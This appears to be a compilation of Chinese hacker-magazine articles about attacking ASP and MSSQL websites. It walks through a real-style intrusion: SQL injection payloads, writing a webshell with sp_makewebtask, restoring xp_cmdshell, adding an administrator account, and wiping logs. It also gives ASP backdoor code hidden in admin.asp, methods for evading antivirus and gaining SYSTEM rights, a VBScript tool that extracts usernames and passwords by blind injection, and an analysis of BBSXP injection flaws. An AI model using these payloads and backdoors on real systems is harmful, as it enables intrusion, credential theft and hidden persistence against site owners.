`http://www.something.com/script.asp?id=2 and 1=1`

提交：  
`http://www.something.com/script.asp?id=2 and 1=2`

提交：  
`http://www.something.com/script.asp?id=2 and 1=(select @@VERSION)`

IE 返回正常记录 / IE 没有返回记录。好了，这样就确定存在注入漏洞了，下面我们来利用这个漏洞拿到服务器和数据库的一些相关信息。譬如：想看服务器打的补丁情况，我们提交相关语句后会触发错误回显。

### 踩点

踩点，是对一个服务器进行安全测试的首要工作。我们对服务器先进行端口扫描，我拿出了朋友写的一款非常不错的扫描程序，速度相当快，可以同时开 2000 个线程（wtf: GOOD!）半支烟功夫，端口 1-65535 就扫完了。扫描的开放端口如下：`21,80,1433,3389`。再次扫描得到的结果相同，几乎能肯定是这些了。冲击波过后，网上的服务器安全了许多，利用系统漏洞入侵也变得有难度了。先来分析了一下：我把目标集中在 21 和 1433 端口，现在只有看看运气，看看能否扫出个弱口令（wtf: 呵呵，想得到挺美！）——真是倒霉，我很久都没有扫到存在弱口令的机子了，今天也一样，什么都没扫出来。看来，我只有从网站脚本上寻找出路了。

### 对网站进行全方面的探索

开了 1433 端口，即 SQLServer 服务，一般网站都是 ASP+MSSQL 结构来架设的，并且 ASP 脚本的注入漏洞比其他脚本漏洞好找，漏洞存在的机率也相对要大得多。一般情况下，我在提交的参数后加上单引号提交，如果参数没有过滤，IE 一般都会返回错误信息。


看来服务器打了 SP4 补丁，据说打了 SP4 后，也有对 80 的溢出程序和对 MSSQL SP3 的溢出程序。不过这些属于“绝对机密”，估计除了 wtf 那小子有，很少人能搞到，反正我是没有的，哪天敲诈他去！现在我们继续！

这台服务器从系统方面对于我们来讲，是比较安全的，所以我还是接着从脚本方面着手吧。再来看看它的数据库连接账号的权限，提交：

```text
http://www.something.com/script.asp?id=2 and 1=(SELECT IS_SRVROLEMEMBER('sysadmin'))
```

返回正常，这证明当前连接的账号是服务器角色 sysadmin 权限。

> wtf：IS_SRVROLEMEMBER('role'[, 'login']) 函数用于判断当前的用户登录是否是指定的服务器角色的成员。其中，role 为被检查的服务器角色的名称，而 login 是可选的；如果未指定，那么使用当前用户的登录账号。如果 login 是 role 的成员，则返回 1；不是则返回 0；如果 role 或 login 无效，则返回 NULL。

我差点没把嘴里的一口茶喷到电脑屏幕上。当前连接账号的服务器角色居然是 sysadmin 权限！如图 2 所示。


哈哈！看来连接账号多半是采用 SA 账号连接的了。提交：

```text
http://www.something.com/script.asp?id=2 and 'sa'=(SELECT System_user)
```

用来查看连接账号是不是用 SA 连接的，IE 再一次返回正常。这证明了连接账号真的是 SA，看来权限是至高无上的了。

> wtf：当使用应用程序角色时，执行“SELECT USER”将返回当前使用的应用程序角色的名称；如果要获得已登录用户的身份，则使用 Transact-SQL 语句“SELECT SYSTEM_USER”。

到这里，可能很多人就想到了利用 xp_cmdshell 扩展存储过程来加系统账号，然后再使用终端连接服务器。这是非常不错的想法！我也是很多人中的一员！我们来试试看行不行吧！

### 利用 MSSQL 存储过程，得到 Web Shell

下面，让我们看看 xp_cmdshell 是否被管理员删除了！提交：

```text
http://www.something.com/script.asp?id=2 and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell')
```

IE 返回的信息如下：

```text
ADODB.Field 错误 '800a0bcd'\nBOF 或 EOF 中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。
```

看来 xp_cmdshell 已经被删除了。呵呵，我们来给它恢复一下吧！

```text
http://www.something.com/script.asp?id=2;EXEC master.dbo.sp_addextendedproc 'xp_cmdshell','xplog70.dll'
```

再试，看 xp_cmdshell 是不是恢复过来了？

```text
http://www.something.com/script.asp?id=2 and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell')
```

> wtf：小编在后来的尝试中，发现 xp_cmdshell 恢复过来了吗？哈哈，不知道是哪个兄弟留下来的成果？

同样没有返回内容。这证明，管理员把 xplog70.dll 这个动态链接库给改名了，要不就给删除了，看来直接恢复是没有办法的了。对此，我只能说两个字“我忍”！

这么“好”个漏洞，不好好利用我是不会甘心的，再说都到这地步了，正有劲呢。先拿它的 WebShell 再说。哼哼，拿到 WebShell 后，我自然有办法对付它了，哈哈哈……（十足般的奸笑！）。

下面看如何拿到 WebShell！看过 NEVER 和 CZY 的文章没有？拿 WebShell 的方法，两位都已经详细地介绍过了。我也把他们的方法写成了程序，方便我使用。不过很困难的是得不到 Web 绝对路径。那我们生成的木马保存在什么地方呢？

这可能是很多牛人一直在研究的问题。还好，我对 MSSQL 还是了解一点。我有办法得到它的 Web 绝对路径，跟我来吧。（wtf：这绝对是个非常非常大的闪光点！大家看清楚了！）

下面我们要利用到两个 MSSQL 存储过程。不过有必要先给大家介绍一下 xp_regread 扩展存储过程和 sp_makewebtask Web 助手存储过程。xp_regread 是用来读取注册表信息的，我们通过这个存储过程来得到保存在注册表中 Web 绝对路径。

sp_makewebtask 在我们这里是用来得到 WebShell 的，其主要功能就是导出数据库中表的记录为文件，文件名你可以自己指定，当然我们这里就指定为 ASP 脚本文件。

哎！试想，如果表中记录保存的是脚本代码，导出来的文件也就是脚本文件了。所以，我们添加的记录就是脚本代码。

这里我就不用 N.E.V.E.R 的方法了。他的方法是导出库文件，导出的文件都比较大，并且很多乱码看起来不方便。如果记录中存在 ASP 的标记符并且有错误的 ASP 代码那就不好办了，打开多半返回 500 的错误码，所以我们采用 CZY 的方法，就是 Web 作业来得到 Shell。

#### 1. 怎么拿到 Web 绝对路径

呵呵？这个问题，花了我很长时间去研究。大家都知道 MS 的东西很多都放在注册表中的，Web 位置我们可以在注册表中得到，位置如下：

```text
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots
```

利用扩展存储过程 xp_regread 我们可以取得它的值。

```sql
EXEC master.dbo.xp_regread 'HKEY_LOCAL_MACHINE', 'SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots', '/'
```

这样就取出来了，但问题又来了，取是取出来了，我们怎么在 IE 中返回它的值呢？我的方法是：先创建一个临时表，表中加一字段，类型为 char(255)。用它来保存 Web 绝对路径的值。表建好后，我们就用读取注册表的方法，把返回的值保存在一变量中。然后向新建的表中加入记录（即变量的值）。这样，路径就写入到了表中。提交：

```sql
DECLARE @result varchar(255);
EXEC master.dbo.xp_regread 'HKEY_LOCAL_MACHINE', 'SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots', '/', @result output;
insert into 临时表(临时字段名) values(@result);
```

然后，我们再提交：1=(select count(*) from 临时表 where 临时字段名>1)。这样 IE 报错，就把刚才插进去的 Web 路径的值报出来了。我也试过直接用变量来报错，让 IE 返回变量的值，结果是失败的，所以就想到了建临时表加数据进去的方法！最后，我们再删除刚建的临时表。WebShell 就得到了，工作就此告一段落。

#### 2. 怎么拿到 Web Shell

CZY 的文章已经写得很详细了，所以，我这里就只简单地提一下。先创建一个表，建一字段，然后向这个字段中加入木马的内容。然后，把内容通过 xp_makewebtask 存储过程导出成 ASP 脚本保存在 Web 绝对路径中。再次删除建的临时表，一切 OVER。如：

```sql
EXECUTE sp_makewebtask @outputfile = 'WEB绝对路径\导出的文件名.asp',
@query = 'SELECT 你的字段 FROM 你建的临时表'
```

呵呵，结果就出来了。当然我都写成了程序，所以就不用麻烦自己手工一行一行地加数据进去了（wtf，本期文章有详细介绍！大家一定不会失望！）。方法和思路都写了，现在我们就来行动吧。

还是先看看，它这两个扩展存储过程是不是已经被删除了。如果被删了，我也不想活了！呵呵，提交：

```text
http://www.something.com/script.asp?id=2 and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name='xp_regread')
再提交：
http://www.something.com/script.asp?id=2 and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name='sp_makewebtask')
```

啦啦啦！今天是什么日子，我比过年还开心啦。全部返回正常！两个要用到的存储过程都没有删除。

> wtf：一般管理员也不会删除这两个，可能对它们的了解不多，也就不会注意它们嘛，危机就在这里啊，嘿嘿。

好，拿到 Web 绝对路径后，继续建表：

```text
http://www.something.com/script.asp?id=2;create table [dbo].[cyfd] ([gyfd] [char](255));
```

这样我们就成功地建了一个名为 cyfd 的表，并且添加了类型是 char、长度为 255 的字段名 gyfd。然后向表中加数据：

```text
http://www.something.com/script.asp?id=2;DECLARE @result varchar(255);EXEC master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots','/', @result output; insert into cyfd (gyfd) values(@result);--
```

从注册表中读出 Web 绝对路径，再把路径插入到刚建的表中，然后报出 WebShell 的绝对路径。

```text
http://www.something.com/script.asp?id=2 and 1=(select count(*) from cyfd where gyfd>1)
```

出错后，IE 返回错误，我们得到 Web 绝对路径“d:\inetpub\wwwroot\”。经过努力的成功特别香甜！喝口茶！如图 3 所示。


然后删除刚才建的表，提交：

```text
http://www.something.com/script.asp?id=2;drop table cyfd
```

OK，有了路径下面就好办多了。打开我写的获取 WebShell 的程序，输入漏洞 URL：http://www.yfd.com/yfd.com?id=2。输入保存木马的绝对路径 d:\inetpub\wwwroot。木马我早就配置好了，代码精简又精简，只有 30 行代码，这样才少向服务器提交数据。木马的主要功能，就是输入内容，把输入的内容保存为一个文件。通过这样的木马，我们就可以实现上传一些功能强大的脚本木马了，如海洋木马。不到一分钟，程序都已经运行完毕。输入相应的路径，WebShell 来了，用最快的速度生成了一个海洋木马，如图 4 和图 5 所示。


我生活在幸福之中！——wtf 常常说这句话，今天看来我也被感染了！下面我们还得来！

### 恢复 xp_cmdshell，向系统权限进军

下面的工作就很简单、很轻松了，10 分钟不到，就给你一个管理员账号。都说了 xp_cmdshell 已经被删除了，并且无法恢复，这多半是管理员把 xplog70.dll 文件给删除了，要不就是改名了。没事，我们上传一个 xplog70.dll 就搞定一切了。

通过 WebShell，我很快就把 xplog70.dll 文件给它上传到 e:\inetpub\wwwroot 目录下了。来吧，我们来恢复，提交：

```text
http://www.something.com/script.asp?id=2;EXEC master.dbo.sp_addextendedproc 'xp_cmdshell','e:\inetpub\wwwroot\xplog70.dll';
```

恢复，支持绝对路径的恢复哦，如图 6 所示。


OK。我们用 IE 来查看一下是不是已经恢复了。提交：

```text
http://www.something.com/script.asp?id=2 and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell')
```

嘿嘿，返回正常，已经恢复了，下面的还用我说吗？呵呵！加账号：

```text
http://www.something.com/script.asp?id=2;exec master.dbo.xp_cmdshell 'net user chouyfd chouyfd1314yt /add'
```

提升自己为超级管理员：

```text
http://www.something.com/script.asp?id=2;exec master.dbo.xp_cmdshell 'net localgroup administrators chouyfd /add'
```

完毕。打开你的终端连接程序，连接吧！终于给我连上了。到此，我就成功地拿到了这台主机的系统管理员账号（图 7）。


**脚本小子：** 想必大家都用过海洋顶端 ASP 木马吧？这个 ASP 木马对于广大黑友而言可是入手必备的武器呀，但是，就像当年风靡大陆的木马“冰河”一样，都毫无例外被各大杀毒软件列为追杀对象。我下了各种 ASP 木马，用国内的金山毒霸和国外的卡巴斯基等杀毒软件检查，都无一例外报警了，尤其是国外的卡巴斯基，将海洋顶端木马 XP 版识别为：Backdoor.ASP.Rootkit.10.a。那么对于黑友而言，如何躲过网管查杀中的杀毒软件的法眼呢？为此，脚本小子特约海洋顶端木马的作者 lcx 撰写本文，以飨读者！

## 突破常规限制运行 ASP 木马

脚本入侵中往往会上传一个 ASP 木马来进一步扩大权限，或者在肉鸡中留 ASP 后门也是一个不错的选择。但是如何让 ASP 木马更加隐匿而强大？让它躲过网管查杀、逃过杀毒软件追杀？并且具备 system 权限？改变代码变量也许是一个解决问题的办法，但是我们不如换个角度思考，何不尝试改变 ASP 木马的运行方式？

### 任意后缀运行 ASP 木马

首先，我们可以换个任意后缀来运行 ASP 木马。换任意后缀来运行 ASP 文件方法有两种。

### 第一种方法：

这种方法是 include 指令的使用。include 指令可以让我们直接调用位于其他文件的函数，而不管后缀名是什么。像我写了一个简单的 ASP 木马，功能是遍历 c: 盘，源码如下：

```asp
<%Set oScript = Server.CreateObject("WSCRIPT.SHELL")
oScript.Run("cmd.exe /c dir c:\ > c:\lcx.txt",0)%>
```

我们可以将这段源码保存成 1.jpg，然后将这句指令 `<!--#include file="1.jpg"-->` 放在 2.asp 文件的文件头或文件尾，那么我们执行 2.asp 时，放在 2.asp 同目录下的 1.jpg 同样也会被调用，起到遍历 c: 的功能，即在 c: 下生成 lcx.txt 这一文件。

> 脚本小子：cool！这二招是偷梁换柱啊！

### 第二种方法：

第二种方法是利用 Asp.dll 解析。在 IIS 默认安装情况下，我们可以察觉 asa、cer、cdx 后缀也可以成功运行 ASP 代码，因为这 3 种后缀的文件映射都是调用了系统的 asp.dll。根据这一启示，我们可以做一个 .lcx 的后缀映射，用 nt\system32 下的 asp.dll 来解析，这样做完后写有 ASP 源码的 lcx 后缀文件也会成功运行 ASP 程序。其方法是依次打开电脑的“控制面板→管理工具→Internet 服务管理器→Web 站点→右键属性→主目录→配置→添加”，如图 1 所示。


> 脚本小子：好一招“借尸还魂”的生动运用！

### 触发 ASP 木马

其次，我们可以让 ASP 木马触发后才运行。无论你（POST 提示方式），显示我的 Web 后门程序。这样两个后门，很“保险”！

### 事后处理工作

终端连接上后，以最快的速度，清除 IIS 日志和 MSSQL 日志。同时，把 xp_cmdshell 也删除掉，要被发现就不好办了。再把上传的那个 xplog70.dll 移动到 system32 目录下，改个我都不知道什么意思的名字叫 msxlog32.dll（打死他也查不出来，哈哈！），再将猪儿提供的超级内核后门程序安装起，再把存在漏洞的脚本文件给补上补丁。同时，在他的那个脚本程序中，我修改了代码，提交特定的参数，下面的工作就是清除日志和留下超级后门，闪人！

后记：文章可能有很多地方大家不太明白，篇幅有限，如有必要，直接和我交流吧。此次完全通过脚本技术拿到系统管理员账号，这也是我很久以来对 MSSQL 深入学习的结果。本文章主要在于展现入侵的思路，入侵方法是多种多样的，希望本文思路对大家有所帮助，祝大家猴年快乐，万事如意！

的 ASP 木马写得多么好，基本总会调用到 WSCRIPT.SHELL 和 Scripting.FileSystemObject 这两个对象。有经验的网管可以运行查找功能，让你的木马无处可逃。

> **脚本小子：** 这里我们绝不是要推荐一个匿名黑客作案编写隐蔽 ASP 木马的工具，详细代码读者请查看光盘“源代码”栏目，按照文章名查找即可。

我们能不能做到调用这两个对象的 ASP 木马不放在肉鸡上，需要时能够随时上传运行呢？runasp.asp 是一个用 ASP 实现 ASP 文件运行的脚本，虽然还有很多 bug，但是对我们调试执行 ASP 木马是足够用了。更为可怕的是我在 runasp.asp 里调用测试一些恶意代码时，居然躲过了瑞星的查杀，如图 2 所示。


图 2

> **脚本小子：** 由于 runasp.asp 代码太多，文章里不方便列出，详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

我们将 runasp.asp 放在肉鸡上是不是一个很好的 ASP 触发器后门呢？另外，对付粗心的网管我们还可以将这样一段代码放在 ASP 文件里。

```asp
<%
on error resume next
id=request("id")
if request("id")=1 then
  testfile=Request.form("name")
  msg=Request.form("message")
  set fs=server.CreateObject("scripting.filesystemobject")
  set thisfile=fs.OpenTextFile(testfile,8,True,0)
  thisfile.WriteLine(""&msg&"")
  thisfile.close
  set fs = nothing
%>
<form method="POST" ACTION="你要插入的asp文件名?id=1">
<input type="text" size="20" name="Name" value="<%=server.mapPath("xp.asp")%>">
<textarea name="Message" class=input></textarea>
<input type="submit" name="Send" value="生成" class=input>
</form>
<% end if %>
```

像我放在动网文章的 admin.asp 的文件尾端，当网管运行 http://动网文章url/admin.asp 时并没有引起丝毫变化，而当我们运行 http://动网文章url/admin.asp?id=1 时，就可以根据我们的需要生成任意 ASP 木马文件了。

> **脚本小子：** 此招不可谓不毒也！

## 让 ASP 木马具备系统权限的方法

最后，我们要让 ASP 木马具备系统权限。我们的木马现在隐蔽得很深，躲过了细心网管和杀毒软件，不具备系统权限我们心有不甘。让 ASP 木马具备系统权限的方法有 3 种。

### 第一种方法：

是在 IIS 管理器中的主目录选项里将应用程序保护选择为“低（IIS 进程）”，如图 3 所示。


图 3

### 第二种方法：

将 “IWAM_machine” 这一用户加入 administrators 组即可。这两种方法我想大家也许都耳熟能详了，但第 3 种也许就不为人所知了。

### 第三种方法：

netbox 是一款由北京综艺达软件技术有限公司自主研制的编译及开发工具，除了 Apache 和微软的 IIS 以外，目前是世界上第三个可以运行 ASP 的应用服务器，在 Windows 98/NT/2000/Me/XP 下都可以直接运行，而且是一个大小仅为 440KB 的绿色文件。

大家使用的时候，只需将 netbox 文件夹放在某个盘符下，再在 cmd 下运行：

```bash
x:\netbox\netbox.exe -install
```

即可安装成功 netbox，以后就可以运行 http://ip:88/x.asp 了。需要指出的是，我在 netbox 的配置文件 main.box 里写了这样两行代码：

```ini
if httpd.Create("",88)==0 Then
  Set host = httpd.AddHost("", "\\wwwroot")
```

意思是 Web 的端口为 88，asp 文件放在 netbox 目录下的 wwwroot 文件夹。这个端口和文件夹，你都可以根据自己的需要用记事本打开 main.box 来修改成你所想要的。我们使用这一软件最大的一个好处是：我们的 ASP 木马在 netbox 环境下具备了系统权限。也许用它在肉鸡上做主页留后门，也是一个不错的选择哟。

另外，因为我整篇文章写的是如何突破常规限制来运行 asp 木马，所以还有一点我要提及。在《黑客防线》2003 年 7 期，xhacker 有篇文章《巧妙设置 cmd 权限加强主机安全配置》提到过防网上流行的 cmd.asp 木马，方法是可以用：

```
cacls "%systemroot%/system32/cmd.exe" /E /D IUSR_machine
cacls %systemroot%/system32/dllcache/cmd.exe /E /D IUSR_machine
```

这样两条命令来限制 cmd.exe 的权限，于是 cmd.asp 木马就失去作用了。

针对这种限制我们也有办法突破：我们可以将本机的 cmd.exe 改名后传到肉鸡上。假设我们将 cmd.exe 改名为 lcx.exe，传在肉鸡的 d:\lcx 目录下，于是我们打开 cmd.asp，找到这一行源码，改为：

```
Call oScript.Run ("cmd.exe /c " & szCMD & " >>" & szTempFile, 0, True);

改为

Call oScript.Run ("d:\\lcx\\lcx.exe /c " & szCMD & " >>" & szTempFile, 0, True)
```

即可，我们又可以成功运行 cmd.asp 了。总之，如何能更好地运行 ASP 木马，发挥出它的强大功能，还是需要我们多动脑、多动手，只有这样我们才会有新的发现。

> 编后：用兵之法，无恃其不来，恃吾有以待也；无恃其不攻，恃吾有所不可攻也。看来各位黑友，在一条看不见的战线上作战时，必须权衡利害，善于变通，因势利导，才能做到有备无患，有恃无恐！谋定，而后动，才是黑友的至高境界！

## 脚本小子

很多的注入攻击者都是建立在 MSSQL 服务器的基础上的，通过烦琐的猜测过程来完成一些入侵操作。如今一个 SQL 注入在步骤上显得越来越烦琐。如果通过编写程序来简化操作呢？太复杂的大家可能接受不了，今天我们来看一个 Vbscript 脚本的 SQL 注入猜测程序。

- 难度等级：中级
- 前置知识：SQL 注入技巧，Access 数据库的使用技巧

## 打造 SQL 注入脚本

最近，SQL-Injection 漏洞我们真是屡见不鲜，在众多看似风平浪静的论坛上都存在着不被周知的类似隐患，包括以前的动网 loginout.asp、toplist.asp 页面等存在的漏洞，也被相继找了出来。希望所发生的这一切能让众多 ASP 程序员们意识到程序严密的重要性！

开始我们的正题吧。通过脚本对因过滤字符不严的 ASP 页面来构造 URL，能猜测常用表名、字段名和用户、密码。经常玩注入的朋友都知道，这里我写了一个自动注入脚本 pSQL.VBE，可以免去构造 URL 时不少“填字”的辛劳，能自动猜测常用表名、字段名和用户、密码。经修改也能猜测其他不常见的表名、字段名和用户名、密码，不过速度不会很快，希望大家能够喜欢！下面介绍脚本中函数的功能、原理及其使用方法。

注意到上面 3 个 URL 的不同了吗？对了，就是 and 后面的部分。这里的 list.asp 接收 GET 或者 POST 过来的字段 id=1 后就执行了 SQL 语句，一般都是这样：select top 1 * from [表名] where id=1。  
如果我们构造 id=1 and 1=1，则会执行 select top 1 * from [表名] where id=1 and 1=1；如果页面正常返回，则正如我们想象的那样，字符过滤不严！若 <1><2> 两种情况与 <3> 返回的正文不一致，则表明一定存在 SQL 注入漏洞，恭喜恭喜！

### 漏洞检测

检查 URL="http://ip/list.asp?id=1" 是否可以构造这样的 URL 来注入：

```
<1> http://ip/list.asp?id=1
<2> http://ip/list.asp?id=1 and 1=1
<3> http://ip/list.asp?id=1 and 1=0
```

- 1. 判断是否存在漏洞。
- 2. 取得正常返回时的页面内容。
- 3. 猜测表名，从预设的表名数组中取得表名，猜测数据库中是否存在该表。
- 4. 如果存在一个表，同样从预设的字段名数组中取得字段名，猜测数据库中是否存在该字段。
- 5. 如果存在用户和密码字段，手动填入字段名来猜测用户名和密码。

```
Function pPost(pUrl)
On Error Resume Next
```

```
vb
Set pRes = CreateObject("Microsoft.XMLHTTP")
pRes.open "POST", pUrl, false
pRes.Send
pRet = bytes2BSTR(pRes.responseBody)
If instr(pRet, BodyText) > 0 Then
    pPost = "True"
Else
    pPost = "False"
End If
Set pRes = Nothing
End Function
```

给大家介绍一下这个 `pPost(pURL)` 函数。函数利用 XMLHTTP 从页面 URL 获取数据，调用时传递类似 `http://ip/list.asp?id=1 and ******` 的 URL。`BodyText` 为正常返回页面中的内容；如果提交后返回页面中存在 `BodyText` 则表示正常返回，不存在则表示条件不为真（返回错误）。

```
vb
Function pCheckSQL(pUrl)
Dim ContinueInd, BodyText1, BodyText2
BodyText1 = ""
BodyText2 = ""
Dim pCheckSQL1, pCheckSQL2, pCheckSQL3
pCheckSQL1 = pRetText(pUrl)
pCheckSQL2 = pRetText(pUrl + " and 1=1")
pCheckSQL3 = pRetText(pUrl + " and 1=0")
' ... 比较返回内容，提取正文并判断是否存在注入
If BodyText1 <> BodyText2 Then
    pCheckSQL = "True"
    BodyText = BodyText1
Else
    pCheckSQL = "False"
End If
End Function
```

同时，这个函数也是确定是否存在注入漏洞的关键。通过构造 `... and 1=1` 与 `... and 1=0` 两个非法 URL，比较其返回内容来判断目标是否可注入。

如果两个内容一致，说明两者都没有执行（提示无漏洞并退出）；如果内容不一致，说明 `... and 1=1` 正常执行而 `... and 1=0` 未正常执行，则提示存在漏洞并开始注入（猜测表名、字段、用户名、密码）。

### 检测表名

通过提交 `http://ip/list.asp?id=1 and exists (select * from ptable)` 来检测是否存在表 `pTable`。

```
vb
'pCheckTable(pUrl,pTable) 函数介绍
Function pCheckTable(pUrl,pTable)
    CheckTable = pPost(pUrl + " and exists(select * from " + pTable + ")")
    If CheckTable = "True" Then
        pCheckTable = True
    Else
        pCheckTable = False
    End If
End Function
```

表名参数可预设一个常见表名字典进行枚举，例如后台常见表：`admin`、`user`、`login`、`news`。

```
vb
Dim Table(3)
Table(0) = "admin"
Table(1) = "user"
Table(2) = "login"
Table(3) = "news"
```

构造类似 `... and exists(select * from ptable)` 的 URL。若存在该表则返回 `True` 并继续检查字段；若不存在则返回 `False` 并检查下一个表名。

### 检测字段名

通过提交 `http://ip/list.asp?id=1 and 0<>(select count(pField) from ptable)` 检查字段名，方法与检测表名相同。

```
vb
Function pCheckField(pUrl,pTable,pField)
    CheckField = pPost(pUrl + " and 0<>(select count(" + pField + ") from " + pTable + ")")
    If CheckField = "True" Then
        pCheckField = True
    Else
        pCheckField = False
    End If
End Function

Dim Field(3)
Field(0) = "name"
Field(1) = "user"
Field(2) = "username"
Field(3) = "pwd"
```

### 检测用户名和密码

```
Field(4)='pass'
Field(5)='passwd'
Field(6)='password'
Field(7)='id'
Field(8)='title'
Field(9)='body'
Field(10)='topic'
Field(11)='board'
```

```
Wscript.Echo Chr(10)&"------开始猜测表名"&Chr(10)
If pCheckTable(Url,ErrorTable)="True" Then
  Wscript.Echo "------"&ErrorTable&Chr(10)
  Wscript.Echo "------表名猜测完毕"&Chr(10)
```

这里是比较重要的地方，它可以猜到已知字段的长度和每个字符，这样就可以取得用户名和密码了。这里用到的函数如下：

```
Function pCheckLen1(pUrl,pTable,pField,pCheckStyle,pnum,m,n)
  ' 用来检测pField的长度和内容
  If pCheckStyle=1 Then pCheckStr="Len("+pField+")"
  If pCheckStyle=2 Then pCheckStr="Asc(Mid("+pField+","+pnum+",1))"
  ...
End Function
```

这里可能有朋友要提出另一疑问了：为什么不先猜测 id。我的目的是为了找到用户名和密码，这里直接找就可以了，省掉了一些不需要的东西，避免猜解时间过长……

该函数中的参数说明：pURL 是存在漏洞的 URL 地址，pTable 是已经猜出来的表名，pField 是要猜解的字段名。pTable 和 pField 都需要手动输入，因为要猜的是用户名和密码，所以分别输入表名、用户名字段名、密码字段名，然后脚本会先猜用户名长度和内容，再猜该用户的密码长度和内容。

脚本是用一个 RunInjection() 函数来执行的。这里提到它只是为了说明一个错误处理提示，其中有段代码如下：

其中的 ErrorTable 在程序开头定义为 `ErrorTable='注入不成功'`，判断 `pCheckTable(Url,ErrorTable)` 是否为 `"True"`，就是判断 BodyText 是否取得成功；如果找到表名 ErrorTable 就提示注入失败了，否则继续猜以下的表名！


> 图1 是我随便测试的一个论坛的截图（这时候才的确感觉它很方便 - -）。

### 总结

该脚本适合 Access 版的论坛注入。SQL 版请参考 LILO（小骗子）写的 SQL 注入脚本。该脚本在查找中需要手动输入已查到的表、字段名称，使用过程中稍有不便，请大家见谅！

看到作者，我又想到了“臭要饭”的作品。作者在程序编辑上花费了心思，通过逻辑和方法完成了一篇 SQL 程序式的攻击过程。程序式注入攻击是以后脚本攻击的流行趋势，请网管朋友注意。

脚本小子：提到 BBSXP，相信大家对 PsKey 兄弟在 2003 年第 6 期发表的《BBSXP 多个文件存在 Sql Injection 漏洞》还印象颇深。对于这款在其以前的说明文档中有“经过将近 3 年的测试，可说是不存在任何 BUG”这句话的论坛系统来说，或许今天又难免尴尬。不过对于广大读者朋友来说，能够感觉到的就是更多的惊喜了！


BBSXP 是 Yuzi 工作室开发的 asp 论坛。BBSXP 的应用虽不及 dvBBS 广泛，但漂亮的界面和快捷的反应速度仍使其占有了不小的市场。很长一段时间以来，各类脚本漏洞文章都集中在 dvBBS 上面，对 BBSXP 的介绍似乎相对少了许多。小弟我斗胆出来献丑，一来是试图填补一下空白，二来做出抛砖的姿势，希望能够引出高手之玉来。

我下载的是 BBSXP4.11 正式版本，链接地址是 http://www.bbsxp.com/download/bbsxp.zip。BBSXP 官方似乎也用了这个版本，因为在对 http://wwwv2.bbs3000.com 的测试中，就下载版本分析所得的漏洞，基本上都在此顺利地重现了一遍。

第一个分析的目标锁定在了最后一个文件 usertop.asp 上。我是按照程序的执行流程来查看的，因为它首先 include 了另外一个文件 setup.asp，很自然的，目标就转到分析 setup.asp 上面了。

setup.asp 一开始 include 了 conn.asp，这个只是表明一下数据库的位置和一些基本的连接设置，看起来不会有什么问题。接下来是论坛常量的设置，也不会有什么问题。再接下来的就是一些函数的设定，虽然没有直接调用而造成漏洞，但就声明而言，已经可以看到很多不合理的地方。

在 top 这个过程中，很明显有注入的可能，如下：

```
if Request.Cookies("username")<>empty then
  sql="select * from [user] where username='"&Request.Cookies("username")&"'"
```

Cookies 是可以伪造的，比如当前很流行的 IECV 就可以很方便地更改 Cookie 值。所以仅仅是判断了 Cookie 中的 username 是否为空还远远不够，除非在调用 top 过程之前有了很严格的判定。这下子我们的心里已经有数了：如果没有判定 Cookie 的合法性而直接调用了 TOP，就会有被利用的可能。…

暂且把这个放一放，继续往后面看。succeed、error 和 error2 三个子过程都存在跨站脚本漏洞的潜在威胁。简单地说，因为这 3 个过程都带了参数进入，而且没有对参数进行必要的检查就直接输出。

…可以传给其他的用户，那么就可能被利用作跨站攻击。我们把这个也放一放，再往后面看。ForumTree 和 BBSList 两个子过程存在的问题是：传入了一个参数，没有检查参数就直接利用在构造 SQL 语句中。和前面的一样，如果在调用子过程前没有对参数进行严格的检查，那么肯定会被利用。当然，这只是潜在可能的问题，我们并不确定是否会出现这样的情况。

最后看看子过程 log。就潜在的问题看来，和 ForumTree 与 BBSList 两个子过程存在的问题是一样的。更进一步的，这个子过程还有其独特的地方，来看代码：

```
conn.Execute("insert into log (username,ip,windows,remark) values ('"&Request.Cookies("username")&"','"&remoteaddr&"','"&Request.ServerVariables("HTTP_USER_AGENT")&"','"&message&"')")
```

Request.Cookies("username") 和 Request.ServerVariables("HTTP_USER_AGENT") 都是可以伪造的。以前在 dvBBS 中就曾经有人发现过对 Request.ServerVariables("HTTP_USER_AGENT") 的忽略而造成的漏洞。这里和 dvBBS 以前的漏洞几乎是一致的，如果在调用 log 子过程前面没有对上述的两个变量进行有效的判定和处理，那么这里也是一个潜在的威胁点。顺便说一句，这个威胁只存在于使用 MSSQL 的 BBSXP 中。

好了，对 setup.asp 的分析差不多就到这里了。所有 include 了 setup.asp 的文件都潜在地存在上述的威胁。以后具体的工作中，除了对本身文件的分析，还有就是看调用一些常用的子过程之前有没有我们刚才说到的那些问题。如果有，毫无疑问就是漏洞，接下来的就应该是对漏洞利用的研究。

绕了一个大圈子，回来继续看 usertop.asp，从 include 往后，一句一句分析。

```
order=HTMLEncode(Request("order"))
```

order 被 HTMLEncode 函数处理了一遍。从刚才对 setup.asp 的分析来看，这个函数主要处理用户传递参数 order 中所包含的单引号和斜杠，直觉上这个处理并不完全。从名字 order 上看，十有八九是控制排序情况的变量，如果有注入，不管对于 ACCESS 还是 MSSQL，都有很好的方法…

## SCRIPT ATTACK

栏目编辑/脚本小子/scripsboy@hacker.com.cn

经过单引号和斜杠的限制，所以这个过滤实在是值得考虑。接着就是直接调用 top 子过程。前面的分析现在奏效了，果然是没有对 Cookie 的合法性做任何的检查就直接进行了调用，这是我们找到的第一个问题，肯定可以利用的第一个问题。

继续往下面看，在 69 行的时候有这么一句话：

```
sql="select * from [user] order by "&order&" Desc"
```

